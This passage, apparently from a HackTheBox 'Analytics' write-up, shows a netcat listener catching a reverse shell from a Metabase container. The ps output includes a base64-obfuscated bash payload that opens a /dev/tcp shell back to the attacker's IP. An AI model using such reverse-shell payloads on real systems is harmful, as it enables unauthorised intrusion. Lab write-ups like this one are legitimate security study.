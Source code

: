![](img/analytics6.png)

The reverse shell is correctly received.

```shell
$ ifconfig tun0 | grep inet && rlwrap nc -nvlp 80
        inet 10.10.14.27  netmask 255.255.254.0  destination 10.10.14.27
        inet6 dead:beef:2::1019  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::ad6f:f81d:6923:2e82  prefixlen 64  scopeid 0x20<link>
listening on [any] 80 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.11.233] 51984
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
4b5c316e905f:/$ id
id
uid=2000(metabase) gid=2000(metabase) groups=2000(metabase),2000(metabase)
4b5c316e905f:/$ hostname
hostname
4b5c316e905f
```

Two files are unusual in the root directory: ".dockerenv" and "metabase.db". Probably the resulting shell is inside a Docker container.

it is evident that one is inside a container.

```shell
4b5c316e905f:/$ COLUMNS=1000 ps aux
PID   USER     TIME  COMMAND
    1 metabase  2:10 java -XX:+IgnoreUnrecognizedVMOptions -Dfile.encoding=UTF-8 -Dlogfile.path=target/log -XX:+CrashOnOutOfMemoryError -server -jar /app/metabase.jar
  144 metabase  0:00 bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNy84MCAwPiYx}|{base64,-d}|{bash,-i}
  147 metabase  0:00 bash -i
  148 metabase  0:00 bash -i
  164 metabase  0:00 ps aux
```

